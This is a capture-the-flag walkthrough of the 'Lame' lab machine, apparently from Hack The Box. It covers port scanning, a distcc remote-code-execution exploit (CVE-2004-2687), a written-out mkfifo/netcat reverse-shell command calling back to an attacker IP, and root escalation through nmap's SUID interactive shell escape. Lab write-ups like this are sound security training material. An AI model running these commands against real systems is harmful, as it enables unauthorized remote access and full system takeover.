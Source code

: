 # Lame

## Nmap

```
sudo nmap 10.10.10.3 -p- -sS -sV  

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the results I first checked `FTP`. Anonymous login was confirmed working however, no files or folder was contained in the `FTP` and as shown below file upload was unsuccessful.

![](<../../../.gitbook/assets/image (1640).png>)

Using `searchsploit` against the version of vsftpd running (2.3.4) we see this is vulnerable to a Backdoor Command Execution exploit.

![](<../../../.gitbook/assets/image (1641).png>)

However, trying various exploits I was unable to get successful exploitation.

![](<../../../.gitbook/assets/image (1642).png>)

Looking at `nmap` on port 3632 we do have distcc deamon running. **distcc** is a tool for speeding up compilation of source code by using distributed computing over a computer network. With the right configuration, distcc can dramatically reduce a project's compilation time.

Looking for exploits we see that an unauthenticated RCE exists given CVE-2004-2687 for this daemon.

**Description:**

distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks.

Researching for exploits on GitHub we come to: [https://gist.github.com/ypcrts/12522c1cf6afda03a4f774bcf4d8e940](https://gist.github.com/ypcrts/12522c1cf6afda03a4f774bcf4d8e940)

I downloaded the exploit and executed with the following command:

```
sudo python2 exploit.py -t 10.10.10.3 -c id
```

![](<../../../.gitbook/assets/image (1644).png>)

With confirmed command executed we can now attempt to gain a proper reverse shell. First start a `netcat` listener on the attacking machine:

```
sudo nc -lvp 4444
```

Then check to see if `nc` is installed on the target machine:

```
sudo python2 exploit.py -t 10.10.10.3 -c 'which nc' 
```

![](<../../../.gitbook/assets/image (1645).png>)

With `nc` confirmed installed on the target machine run the command below to spawn a reverse shell to the attacking machine `netcat` listener.

```
sudo python2 exploit.py -t 10.10.10.3 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f'
```

![](<../../../.gitbook/assets/image (1646).png>)

Where we will then catch a reverse shell.

![](<../../../.gitbook/assets/image (1647).png>)

Now on the target machine I uploaded linpeas.sh through a Python SimpleHTTPServer and after running we find the binary nmap has the SUID bit set.

![](<../../../.gitbook/assets/image (1648).png>)

Checking this binary against [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) shows this can be abused to spawn a system shell.

![](<../../../.gitbook/assets/image (1649).png>)

I then executed `nmap` in interactive mode then escaped to a system shell to gain shell as root.

```
/usr/bin/nmap --interactive
nmap> !sh
```

![](<../../../.gitbook/assets/image (1650).png>)

***
